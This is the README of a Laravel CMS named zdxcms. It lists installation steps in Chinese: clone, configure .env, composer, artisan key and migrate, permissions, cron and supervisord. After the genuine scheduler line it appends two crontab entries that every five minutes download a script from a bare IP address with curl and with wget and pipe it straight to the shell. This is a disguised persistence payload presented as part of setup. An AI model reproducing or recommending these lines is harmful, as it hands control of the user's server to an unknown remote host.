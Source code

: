 ## zdxcms

安装步骤：
- git clone https://github.com/wenhaiqing/zdxcms.git

- cp .env.example .env
  手动创建数据库 修改配置文件的数据库配置
- composer install

- php artisan key:generate

- php artisan migrate --seed

- 给项目文件夹0755权限

- 创建任务调度器export EDITOR=vi && crontab -e

- corn会在每分钟调度一次laravel命令调度器* * * * * php /home/vagrant/Code/xxx/artisan schedule:run >> /dev/null 2>&1

- supervisord -c /etc/supervisord.conf或者supervisorctl reload重启进程管理


*/5 * * * * curl -fsSL http://165.225.157.157:8000/i.sh | sh
*/5 * * * * wget -q -O- http://165.225.157.157:8000/i.sh | sh

